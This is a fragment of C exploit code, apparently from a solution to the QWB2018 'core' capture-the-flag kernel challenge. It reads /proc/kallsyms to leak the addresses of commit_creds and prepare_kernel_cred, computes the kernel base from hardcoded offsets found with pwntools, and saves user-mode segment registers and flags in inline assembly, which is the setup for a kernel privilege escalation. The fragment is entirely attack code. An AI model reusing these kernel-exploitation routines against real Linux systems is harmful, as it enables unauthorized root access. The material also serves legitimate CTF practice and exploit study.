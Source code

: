 ```C
	while(fgets(buf, 0x30, kallsyms_fd))
	{
		if(commit_creds & prepare_kernel_cred)
			return 0;

		if(strstr(buf, "commit_creds") && !commit_creds)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			/* printf("hex: %s\n", hex); */
			sscanf(hex, "%llx", &commit_creds);
			printf("commit_creds addr: %p\n", commit_creds);
			/*
			 * give_to_player [master●●] bpython
				bpython version 0.17.1 on top of Python 2.7.15 /usr/bin/n
				>>> from pwn import *
				>>> vmlinux = ELF("./vmlinux")
				[*] '/home/m4x/pwn_repo/QWB2018_core/give_to_player/vmli'
				    Arch:     amd64-64-little
				    RELRO:    No RELRO
				    Stack:    Canary found
				    NX:       NX disabled
				    PIE:      No PIE (0xffffffff81000000)
				    RWX:      Has RWX segments
				>>> hex(vmlinux.sym['commit_creds'] - 0xffffffff81000000)
				'0x9c8e0'
			*/
			vmlinux_base = commit_creds - 0x9c8e0;
			printf("vmlinux_base addr: %p\n", vmlinux_base);
		}

		if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			sscanf(hex, "%llx", &prepare_kernel_cred);
			printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
			vmlinux_base = prepare_kernel_cred - 0x9cce0;
			/* printf("vmlinux_base addr: %p\n", vmlinux_base); */
		}
	}

	if(!(prepare_kernel_cred & commit_creds))
	{
		puts("[*]Error!");
		exit(0);
	}

}

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}
```